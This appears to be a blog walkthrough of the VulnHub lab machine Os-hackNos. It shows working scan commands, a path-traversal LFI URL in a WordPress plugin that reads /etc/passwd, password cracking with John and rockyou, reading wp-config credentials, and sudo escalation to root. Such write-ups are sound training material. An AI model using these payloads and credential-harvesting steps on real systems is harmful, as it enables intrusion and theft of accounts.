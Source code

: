 ```yaml
---
published: true
title: Hack Nos
author: F3dai
image: 'https://imgur.com/DhdkXVo.png'
category: writeup
---
```


2 Flag first user And second root, learning: exploit, Web Application, Enumeration, Privilege Escalation - www.hackNos.com. Format: Virtual Machine (Virtualbox - OVA). Operating System: Linux. Date release: 27 Nov 2019

**URL:** [mhz_cxf: c1f](https://www.vulnhub.com/entry/hacknos-os-hacknos,401/)

**Difficulty:** Easy

**Author:** hackNos: Os-hackNos

### Enumeration

Set up the Machine with a host-only adapter and run a net discover command to find the associated IP. My interface eth1 is Host-Only on my main OS (Kali Linux).

<pre>netdiscover -i eth1</pre>

![net](https://imgur.com/jCliSJM.png)

We can identify the machine with the IP 192.168.56.117, so we will scan it for open ports with nmap to a file named "nmap" with the following command:

<pre>nmap -sS -p- -A -o "nmap" 192.168.56.117</pre>

To start, port 80 is open so we will investigate this port with a browser.

![apache](https://imgur.com/DhdkXVo.png)

There is not much to see, this is the default Apache web page meaning there is probably another web page we are not seeing.

Let's run a dirb scan to discover more paths we can further enumerate with the following command:

<pre>dirb http://192.168.56.117/ </pre>

![dirb](https://imgur.com/cFsXjzN.png)

One of the results that have been returned is /tsweb so let's see what is on there:

![tsweb](https://imgur.com/ebcljVN.png)

This is clearly a Wordpress site so let's run a scan with WPScan. Please note, the newer version of WPScan requires an API token to view the vulnerabilities you can get from their website. 

The following command will scan the site and hopefully return any users, vulnerable plugins and vulnerable themes:

<pre>wpscan wpscan --url http://192.168.56.117/tsweb/ -e u,vp,vt </pre>

![wpscan users](https://imgur.com/bWLLpQs.png)

We have found a user called "user". This is worth noting.

We have also identified a vulnerable plugin called gracemedia-media-player which is susceptible to LFI. 

![vp](https://imgur.com/gRPHYB0.png)

The exploit:

<pre>Title: GraceMedia Media Player 1.0 - Local File Inclusion (LFI)

require_once($_GET['cfg']); The parameter "cfg" it is not sanitized allowing include local files on /gracemedia-media-player/templates/files/ajax_controller.php
</pre>

A link to the exploit DB page: [ExploitDB](https://www.exploit-db.com/exploits/46537)

LFI is usually an exploit for attackers with authenticated access, meaning we need to be authenticated as a user or admin for this Wordpress site. 

Initially, I tried brute-forcing the password since Wordpress has an easy brute-force function with the following command:

<pre>wpscan --url http://192.168.56.117/tsweb --passwords /usr/share/wordlists/rockyou.txt --usernames user</pre>

This would essentially use the rockyou.txt wordlist against the username "user" to see if any would work. 

This did not work, so I tried to look into the /etc/passwd directory with Path Traversal. Read more about this on [OWASP](https://owasp.org/www-community/attacks/Path_Traversal).

This was also given in the POC (Proof of Concept) in the exploit.

Visiting the following URL allows us to view the passwd file of the system:

<pre> http://192.168.56.117/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd </pre>

![passwd](https://imgur.com/3obLd4H.png)

This is to further investigate. Flag is a user with a hash value associated with it.

<pre>$1$flag$vqjCxzjtRc7PofLYS2lWf/</pre>

Let's try and crack this md5 hash. I added this hash to a file named "hash" and asked John to crack it.

<pre>echo "$1$flag$vqjCxzjtRc7PofLYS2lWf" > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash</pre>

![john](https://imgur.com/0p82yTV.png)

We got a password!

<pre>topsecret</pre>

Let's try ssh into the machine with the following command:

<pre>ssh flag@192.168.56.117</pre>

![ssh](https://imgur.com/04ugvzk.png)

We are logged in as flag.

### Privilege Escalation

The change directory command is restricted so we will have to use ls to discover what is on the system.

![cd](https://imgur.com/KKPefEh.png)

I checked the Wordpress config file and found database credentials worth noting:

<pre>cat var/www/html/tsweb/wp-config.php</pre>

![config](https://imgur.com/rp6R2HV.png)

Some more enumeration on the system reveals something interesting in the backup directory:

<pre>ls -la /var/backups/passbkp</pre>

![backup](https://imgur.com/lbpW0Nk.png)

Let's crack this md5 hash like before. Again I save it to a file called hash.

<pre>john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt hash</pre>

And the following password has been found:

<pre>!%hack41</pre>

We will try ssh into another user called Rohit. This user was identified from the /home directory.

<pre>ssh Rohit@192.168.56.117</pre>

Let's check sudo Privileges:

<pre>sudo -l</pre>

Rohit clearly has all sudo privileges, so running the following command should give us root:

<pre>sudo /bin/bash</pre>

And we have root!

<pre>id
cd /root
ls</pre>

![sudo](https://imgur.com/RovwWeg.png)
